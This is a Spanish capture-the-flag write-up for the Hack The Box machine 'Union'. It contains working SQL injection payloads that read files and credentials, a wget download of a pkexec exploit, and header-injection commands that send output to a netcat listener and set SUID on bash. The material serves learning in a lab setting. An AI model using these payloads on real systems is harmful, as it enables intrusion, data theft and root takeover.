# Union

## Información General

<h3>Dificultad:  </h3>

<h3>Sistema operativo:Linux </h3>

<h3>Vulnerabilidad explotada. SQL Inyection, pkexec y Manipulación de cabeceras HTTP (X-Forwarded-For)</h3>

<h3>Fecha de resolución: 18/07/2025</h3>

<h3>Enlace: <a href="https://app.hackthebox.com/machines/Union" target="_blank">Union</a></h3>

### *Leer el documentro en Ingles* <a href="union_english.md">Union</a>

## Reconocimiento


HTB nos proporciona la ip de la máquina objetivo **10.10.11.128**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **union**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 union
```

**El ttl es 63, por tanto, es Linux**
### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn union
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                |
| --------- | ------- | ---------------------- |
| 80        | http    | nginx 1.18.0  (ubuntu) |

</div>

## Exploración

```
http://union/
```

<p align="center"> 

</p>

En este apartado haremos diferentes pruebas

### Primera prueba

Ponemos nuestro nombre

```
dani
```

<p align="center"> 

</p>

Esto nos llevará al path **challenge.php** y nos pedirá que introduzca un flag 

<p align="center"> 

</p>

Como no tengo un flag, volvemos al paso anterior. Pruebo otro nombre, **pedro** y me sale igual. Por tanto, investigando un poco, la idea aquí es ir probando diferentes comandos de inyeccion sql, y con la respuesta que me da, ir analizando que podemos concluir. Por tanto, empezamos con las **inyecciones sql** de forma manual, ya que, haciéndolo de forma automática con sqlmap me salta un **WAF**

## Explotación

### SQL INJECTION

Para tener una mejor visualización todo esto lo llevaremos acabo en **burp suite**, hay una extension para el navegador firefox, que se llama **foxyproxy**, que sirve para activar con bastante facilidad el proxy para **burp suit.** En este <a href="https://www.youtube.com/watch?v=ymfh0LS9OHc" target="_blank">video</a> lo explica muy bien. La información de la página lo llevaremos a **repeater**. En el parametro **player** llevaremos acabo las diferentes pruebas de inyecciones sql.

### Comandos de sql injection

```
" OR "" = "
```

<p align="center"> 

</p>

*Congratulations  " or "" = " you may compete in this tournament!*

Observamos que, nos da una respuesta diferente, sin el **here**

`UNION` es una palabra clave en SQL que se usa para **combinar los resultados de dos consultas** en una sola lista. También coincide con el nombre de la máquina de HTB

```
dani'union select 1-- -
```

<p align="center"> 

</p>

*Sorry, **november** you are not eligible due to already qualifying.*

Encontramos una base de datos llamada **november**

```
dani'union select version()-- -
```

Sorry, **8.0.27-0ubuntu0.20.04.1** you are not eligible due to already qualifying.

Consegui la version de la bbdd

```
dani'union select user()-- -
```

Consigo un usuario potencial llamado **uhc**

Con **load_file()** consigo cargar archivo del sistema

```
dani' union select load_file("/etc/passwd")-- -
```

<p align="center"> 

</p>

Con esto visualizamos en total los usuarios que contiene este sistema **htb y uhc**

Me funciona... podría probar lo siguiente...

```
dani' union select load_file("/home/uhc/user.txt")-- -
```

<p align="center"> 

</p>

Conseguimos la primera **Flag** 

A continuación probamos en conseguir **id_rsa** en ambos usuario

```
dani' union select load_file("/home/uhc/.ssh/id_rsa")-- -
dani' union select load_file("/home/htb/.ssh/id_rsa")-- -
```

**No conseguimos nada**

Estando en este punto sería bueno enumerar la bbdd que hay, por tanto realizaremos los siguientes comandos 

```
dani' union select schema_name from information_schema.schemata limit 0,1-- -
dani' union select schema_name from information_schema.schemata limit 1,1-- -
dani' union select schema_name from information_schema.schemata limit 2,1-- -
dani' union select schema_name from information_schema.schemata limit 3,1-- -
dani' union select schema_name from information_schema.schemata limit 4,1-- -
```

Otra forma de que se vea todas las bases de datos en una sola línea seria usando **group_concat**:

```
dani' union select group_concat(schema_name) from information_schema.schemata-- -
```

*Sorry, **mysql,information_schema,performance_schema,sys,november** you are not eligible due to already qualifying.*

A continuación, vamos a enumerar la tabla de la bbdd **november**

```
dani' union select group_concat(table_name) from information_schema.tables where table_schema="november"-- -
```

*Sorry, **flag**,**players** you are not eligible due to already qualifying.*

Las tablas de la bbdd **november** son **flag y players**

Otra forma también de hacerlo es:

```
dani' union select group_concat(table_name,":",column_name) from information_schema.columns where table_schema="november"-- -
```

Sorry, **flag:one**, **players:player** you are not eligible due to already qualifying.

Ahora, podemos leer el contenido de esta forma

```
dani' union select group_concat(player) from players-- -
```

Sorry, **ippsec,celesian,big0us,luska,tinyboy** you are not eligible due to already qualifying.

Los usuarios que no se pueden escoger

```
dani' union select group_concat(one) from flag-- -
```

*Sorry, **UHC{F1rst_5tep_2_Qualify}** you are not eligible due to already qualifying.*

Acabo de conseguir la flag del usuario.

Si intraduzco esta flag donde... antes me pedían un flag, ocurrirá lo siguiente:

<p align="center"> 

</p>

Si volvemos hacer un nmap, nos encontraremos la siguiente sorpresa:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn union
```

<p align="center"> 

</p>

Aun no hemos hecho ningún fuzzing web, vamos a llevarlo a cabo.

### Fuzzing web

```
gobuster dir -u http://union -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

El **config.php** me resulta muy curioso, vamos a intentar leerlo desde burp suite, hay que tener en cuenta,  que esto nos lo podemos encontrar en la ruta **/var/www/html/** que es la ruta donde suele rescindir estos archivos en los CTFs

```
dani' union select load_file("/var/www/html/config.php")-- -
```

<p align="center"> 

</p>

**Usuario** uhc\
**Contraseña** uhc-11qual-global-pw

Como tenemos el puerto **ssh** abierto pues vamos aprovechar

```
ssh uhc@union
```

<p align="center"> 

</p>

**Estamos dentro** Seré sincero para mí hasta ahora lo que hemos hecho no se me había ocurrido en la vida. Osea, en mi opinión personal, está máquina me está resultando de la más interesante.

## Explotación Posterior

### Escalada de Privilegios

#### Primer Forma:

```
sudo -l
```

Lo hacemos con el usuario **uhc**

*Sorry, user uhc may not run sudo on union.*

#### Segundo Forma:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Como ya hemos hecho en varias ocasiones, de nuevo el binario **pkexec** está presente, llevemos acabo la escalada con este binario.

El exploit lo descargamos <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">aquí</a>

Luego en la maquina atacante usamos este comando:

```
python3 -m http.server 80
```

<p align="center"> 

</p>

En la máquina victima, nos situamos en la carpeta **/tmp**

```
wget http://10.10.14.11/CVE-2021-4034.py
chmod +x CVE-2021-4034.py
./CVE-2021-4034.py
n
whoami
```

<p align="center"> 

</p>

#### Tercera forma

Habría que analizar el archivo **firewall.php**

<p align="center"> 

</p>

La aplicación permite modificar el firewall del servidor (iptables) para autorizar el acceso SSH basándose en la cabecera `X-Forwarded-For`, la cual puede ser manipulada por el usuario. Si un atacante obtiene una cookie de sesión válida, puede falsificar esta cabecera para hacer que el servidor permita conexiones desde cualquier IP. Esto representa un riesgo crítico, ya que permite eludir restricciones de red y obtener acceso SSH no autorizado.

Luego preparamos este comando en nuestra maquina atacante:

```
sudo tcpdump -i tun0 icmp -n
```

En nuestra máquina victima:

```
curl -s -X GET http://union/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.12;" -H "Cookie: PHPSESSID=ui2bh1mgktnof7bq2ore5qarpc"
```

Usamos esa cookie de sesión específica que es la servirá para ping con nuestra máquina atacante.

<p align="center"> 

</p>

Hemos recibido y enviado paquete. Por tanto de esta forma, podemos preguntar quien es el usuario.

Preparamos el puerto de escucha en nuestra máquina atacante

```
nc -lvp 4444
```

En nuestra máquina víctima

```
 curl -s -X GET http://union/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; whoami | nc 10.10.14.12 4444;" -H "Cookie: PHPSESSID=ui2bh1mgktnof7bq2ore5qarpc"
```

<p align="center"> 

</p>

ahora quiero saber que tipo de permiso tiene ese usuario www-data

Preparamos el puerto de escucha en nuestra máquina atacante

```
nc -lvp 4444
```

En nuestra máquina víctima

```
curl -s -X GET http://union/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; sudo -l | nc 10.10.14.12 4444;" -H "Cookie: PHPSESSID=ui2bh1mgktnof7bq2ore5qarpc"
```

<p align="center"> 

</p>

Eso significa que tiene permiso para ser root.

Por tanto, nos centraremos en poner este comando **sudo chmod u+s /bin/bash** Esto sirve para asignarle el permiso UID a la bash, el comando quedaría

```
curl -s -X GET http://union/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; sudo chmod u+s /bin/bash | nc 10.10.14.12 4444;" -H "Cookie: PHPSESSID=ui2bh1mgktnof7bq2ore5qarpc"
```

Luego, con este comando verificamos

```
ls -l /bin/bash
```

<p align="center"> 

</p>

Con solo ejecutar este comando ya obtenemos el privilegio elevado

```
bash -p
```

<p align="center"> 

</p>

-------------------------------------------------------

**Para conseguir la Flag de root**

```
cd /root
cat root.txt
```

<p align="center"> 

</p>

## Conclusión

Esta máquina me ha parecido de las más complicadas, sobre todo por la explotación mediante **SQLI**, ya que era un tema que apenas conocía y al principio no entendía bien su funcionamiento. Sin embargo, gracias a todos los nuevos comandos que he aprendido, he logrado comprender cómo se construyen y utilizan los **payloads personalizados** para realizar una inyección efectiva. Si te encuentras en una situación similar, no dudes en investigar a fondo cómo funcionan estos ataques, porque merece la pena.

En cuanto a la escalada de privilegios, el método usando el binario vulnerable **pkexec** me pareció bastante directo y fácil de ejecutar. Sin embargo, la máquina también ofrece una segunda vía mucho más compleja e interesante: mediante la cabecera `X-Forwarded-For`, que puede ser manipulada por el usuario. Esta técnica era completamente nueva para mí, y me apoyé en una cookie de sesión válida, obtenida con **Burp Suite**, para poder falsificar la IP y conseguir datos del usuario y así lograr la escalada de privilegio.

En definitiva, una máquina sorprendentemente buena, que mezcla múltiples vectores y me ha hecho aprender muchísimo en el proceso.